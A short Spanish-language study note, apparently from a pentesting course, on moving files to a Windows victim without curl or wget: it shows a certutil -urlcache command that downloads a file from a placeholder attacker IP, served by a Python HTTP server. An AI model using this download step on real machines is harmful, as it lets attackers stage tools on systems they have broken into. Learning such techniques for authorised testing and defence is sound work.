 - Que pasa si en un windows no tenemos las herramientas `curl` y `wget`?
	- Vamos a utilizar la herramienta `certutil` 
- El comando para usar esta herramienta seria:
```
certutil -split -urlcache -f http://(IP ATACANTE)/ELARCHIVOQUE_QUEREMOS_COMPARTIR EL_NOMBRE_QUE_QUEREMOS_DARLE_AL_ARCHIVO.
```

- Vamos a crear un archivo vacío en la maquina atacante, usaremos el comando `touch` .
![[Pasted image 20241211200500.png]]
- Vamos a levantar nuestra pagina http con el comando:
```
python3 -m http.server 80
```
- Vamos a la maquina victima y usamos la herramienta `certutil` .

![](../Imagenes/Pasted%20image%2020241211200816.png)
- Estará cargando y nos saldrá esto:

![](../Imagenes/Pasted%20image%2020241211200853.png)
